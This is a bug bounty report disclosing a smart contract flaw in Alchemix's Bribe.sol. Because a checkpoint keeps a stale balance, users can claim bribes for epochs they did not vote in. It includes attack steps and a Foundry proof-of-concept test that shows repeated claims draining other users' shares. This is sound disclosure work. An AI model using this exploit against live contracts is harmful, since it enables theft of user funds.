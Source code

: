 
# A user is able to claim more bribes than they have earned

Submitted on Mon May 20 2024 20:09:30 GMT-0400 (Atlantic Standard Time) by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31526

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- A user is be able to claim more bribes than they have earned
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
A user is able to claim more bribes than they have earned by  claiming bribes for epochs they have not voted in. 
## Vulnerability Details
A user can claim bribes in next epoch for epochs they have voted in and once they have claimed bribes for the previous epoch they should  not be able to claim bribes again without voting or poke. 

The issue is when user claims the bribe reward for an epoch instead of balance of user getting reset, the balance of user remains unchanged and this allows user to claim bribe reward even for epochs they have not voted in.

In `Bribe.sol`
```solidity
function getRewardForOwner(uint256 tokenId, address[] memory tokens) external lock { 
        require(msg.sender == voter, "not voter");
        address _owner = IVotingEscrow(veALCX).ownerOf(tokenId);
        uint256 length = tokens.length;
        for (uint256 i = 0; i < length; i++) {
            uint256 _reward = earned(tokens[i], tokenId);

            require(_reward > 0, "no rewards to claim");

            lastEarn[tokens[i]][tokenId] = block.timestamp;

            _writeCheckpoint(tokenId, balanceOf[tokenId]); //@audit-issue balanceOf[tokenId] does reset to zero after claiming bribe and checkpoint is created with previous balance.

            IERC20(tokens[i]).safeTransfer(_owner, _reward);

            emit ClaimRewards(_owner, tokens[i], _reward);
        }
    }
```
> Steps for Attack
* User A and User B(BlackHat) create two tokenId with same amount and maxLock enabled.
* In Epoch 1 Both User A and User B(BlackHat) votes by calling `vote` function in `Voter.sol` thus becoming eligible for claiming bribes in epoch 2.
* In Epoch 2 Both User A and User B claims bribe and only user A votes in 
  epoch 2 so only User A should become eligible for claiming bribe in epoch 3 .
* In Epoch 3 User B claims bribe by calling `claimBribes` from `Voter.sol` here user B should not be able to claim bribe in epoch 3 because user B has already claimed bribe for voting in Epoch 1 in Epoch 2 and did not voted again in Epoch 3 but user B was able to claim bribe because of the vulnerability.

## Impact Details
* One of the assumed invariant set by Team has been broken 
>A user should never be able to claim more bribes than they have earned

* BlackHat can also prevent some users from claiming their share of bribe by  calling `claimBribes` before them and stealing their share of bribes.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L283-300

        
## Proof of concept
## Proof of Concept
* Add this test to `src/test/Voting.t.sol` and run with 
`forge test --mt testPOCVoteOnceAndClaimBribes() --rpc-url $RPC_URL -vvvv
`
```
function testPOCVoteOnceAndClaimBribes() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); // this user will be inconsistent in voting and claiming
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); //this will actively participate in voting

        
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // add bribes
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //first epoch
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        //2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // only admin voted and beef did not voted in epoch2
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        // beef has claimed his bribes for voting in epoch 1 and did not voted in epoch 2
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //bribe address should have 100k token which was deposited at the start of 2nd epoch
        assertEq(balanceEnd1,TOKEN_100K,"bribeAddress should have 100k which was deposited at the start of 2nd epoch");

        // 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K); // this will be used in epoch 4

        //beef did not voted in  epoch 2 and already claimed bribe in epoch2 for voting in epoch1, so this should have reverted
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        console.log("beef  claimed bribe twice without voting or poke",IERC20(bal).balanceOf(beef));

        // admin voted in epoch 3
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        
        //4th epoch 
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef immediately claimed bribe in the begining of epoch 4
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        hevm.prank(admin);
        // it will revert because of insufficient balance in bribe contract because beef has claimed bribe before admin
        vm.expectRevert(); 
        voter.claimBribes(bribes, tokens, tokenId1);

    }

```